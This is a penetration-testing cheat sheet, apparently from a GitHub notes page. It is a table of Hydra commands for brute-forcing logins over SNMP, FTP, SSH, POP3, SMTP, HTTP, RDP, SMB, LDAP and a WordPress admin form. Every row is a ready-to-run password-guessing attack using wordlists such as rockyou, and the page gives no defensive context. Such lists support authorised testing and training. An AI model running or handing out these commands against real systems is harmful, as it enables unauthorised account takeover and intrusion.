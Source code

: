 ## Hydra

| **Command** | **Description** |
| --- | --- |
| `hydra -P password-file.txt -v $ip snmp` | Hydra brute force against SNMP |
| `hydra -t 1 -l admin -P /usr/share/wordlists/rockyou.txt -vV $ip ftp` | Hydra FTP known user and rockyou password list |
| `hydra -v -V -u -L users.txt -P passwords.txt -t 1 -u $ip ssh` | Hydra SSH using list of users and passwords |
| `hydra -v -V -u -L users.txt -p "<known password>" -t 1 -u $ip ssh` | Hydra SSH using a known password and a username list |
| `hydra $ip -s 22 ssh -l <user> -P big_wordlist.txt` | Hydra SSH Against Known username on port 22 |
| `hydra -l USERNAME -P /usr/share/wordlistsnmap.lst -f $ip pop3 -V` | Hydra POP3 Brute Force |
| `hydra -P /usr/share/wordlistsnmap.lst $ip smtp -V` | Hydra SMTP Brute Force |
| `hydra -L ./webapp.txt -P ./webapp.txt $ip http-get /admin` | Hydra attack http get 401 login with a dictionary |
| `hydra -t 1 -V -f -l administrator -P /usr/share/wordlists/rockyou.txt rdp://$ip` | Hydra attack Windows Remote Desktop with rockyou |
| `hydra -t 1 -V -f -l administrator -P /usr/share/wordlists/rockyou.txt $ip smb` | Hydra brute force SMB user with rockyou: |
| `hydra -l admin -P ./passwordlist.txt $ip -V http-form-post '/wp-login.php:log=^USER^&pwd=^PASS^&wp-submit=Log In&testcookie=1:S=Location'` | Hydra brute force a Wordpress admin login |
| `hydra -L usernames.txt -P passwords.txt $ip smb -V -f` | SMB Brute Forcing |
| `hydra -L users.txt -P passwords.txt $ip ldap2 -V -f` | LDAP Brute Forcing |